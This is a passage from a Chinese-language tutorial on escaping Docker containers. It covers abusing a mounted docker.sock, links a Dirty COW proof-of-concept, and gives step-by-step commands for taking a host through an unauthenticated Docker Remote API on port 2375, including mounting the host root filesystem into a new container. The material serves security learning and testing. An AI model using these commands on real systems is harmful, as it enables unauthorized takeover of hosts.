 当攻击者可控的容器内挂载了该文件，我们也可以对其进行逃逸。

首先我们用如下命令创建一个特权测试容器：

![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP446VYObiaWsjaGxEmiaFYC7WCdqby5tnM5UhdgNmlhibRwMz7gkSLIn9neXlTywkvYYSbxfm1mHnhOw/640?wx_fmt=png)

比如我们控制了上述容器，并发现其挂载了 docker.sock：  

![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP446VYObiaWsjaGxEmiaFYC7WSiaU4XpaevN9rm0vV3QUktAqIMNKyXIfIzXaDeMUwicK5SHwKr5ic6HibA/640?wx_fmt=png)

那么我们可以利用 / var/run/docker.sock 创建特权容器（附录 5）：

![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP446VYObiaWsjaGxEmiaFYC7WzW49gDpdibCibYn8m5U3bQ2mX78BANAhYjkG3iaKMXic5rQxVlV74VgpBQ/640?wx_fmt=png)

最终发现逃逸成功：  

![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP446VYObiaWsjaGxEmiaFYC7WQAB3kY8TUrF3EFic81PWW7QWXSzJMbtsiblRKPbM1GQzPaCZv15562Tg/640?wx_fmt=png)

**6.1.2.3 脏牛**

利用漏洞章节处的脏牛漏洞提权也可以达到逃逸目的，这里不重复演示。

POC 地址：

https://github.com/scumjr/dirtycow-vdso

**6.1.3 未授权访问**

当默认端口为 2375 的 Docker Remote API 对外未授权开放时，攻击者可以利用该漏洞进行 getshell。

a、未授权攻击测试过程：

获取所有 images 列表：

curl http://host:2375/containers/json

获取运行中的容器：

docker -H tcp://host:2375 ps

b、getshell 过程：  

获取镜像:

docker -H tcp://host:2375 images

根据镜像创建容器，把宿主机根目录挂载到容器中：  

docker -H tcp://host:2375 run -it -v /:/mnt/ image_id /bin/bash

创建容器后没自动进入容器的话，可以利用 ps 查看创建容器的 CONTAINER ID：  

docker -H tcp://host:2375 ps

然后进入容器:

docker -H tcp://host:2375 exec -it CONTAINERID sh

默认执行命令只能看到容器内的：

![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP446VYObiaWsjaGxEmiaFYC7WpZHP1WYxVf3lwYT4fv2MUpS17OMaSoUwyWZItcictaanYibedNkHia0Mw/640?wx_fmt=png)
